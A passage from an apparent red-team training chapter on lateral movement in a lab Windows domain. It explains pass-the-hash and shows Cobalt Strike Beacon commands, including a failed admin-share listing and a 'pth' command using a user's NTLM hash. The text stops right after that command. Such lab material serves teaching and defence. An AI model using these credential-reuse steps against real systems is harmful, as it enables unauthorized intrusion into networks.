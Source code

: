 We know from our domain recon that jking is a local administrator on multiple computers via his membership of the Support Engineers domain group.  We also have credential material for this user in the form of an NTLM hash, AES256 hash and a Kerberos TGT.

This chapter will demonstrate different techniques in which we can leverage these credentials and use them to access one of the target computers.  There are also several techniques where we don't need credential material directly, but that take advantage of processes that the user is running on a machine we have elevated access on.
A common way of testing access to a machine is to list the C drive, as this requires local admin privileges to access.

# Pass The Hash 

Pass the hash is a technique that allows you to authenticate to a Windows service using the NTLM hash of a user's password.  It works by starting a new logon session with a fake identity and then replacing the session information with the domain, username and NTLM hash provided.

Beacon has a dedicated pth command which executes Mimikatz in the background.
  This command requires elevated privileges.


First, attempt to list the C$ share of the WEB machine - this will fail because bfarmer is not a local admin there.

beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> ls \\web.dev.cyberbotic.io\c$
[-] could not open \\web.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED

Then run the pth command with jking's username and NTLM hash.
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
